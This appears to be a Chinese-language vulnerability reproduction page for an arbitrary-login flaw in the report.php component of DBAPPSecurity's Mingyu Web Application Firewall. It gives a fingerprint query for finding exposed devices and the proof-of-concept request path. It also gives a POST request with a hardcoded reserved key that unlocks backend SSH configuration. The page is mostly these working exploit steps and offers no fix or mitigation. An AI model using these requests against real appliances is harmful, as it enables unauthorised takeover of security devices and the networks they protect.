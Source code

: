 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## 网络测绘

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](images/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](images/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](images/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](images/202208241422661.png)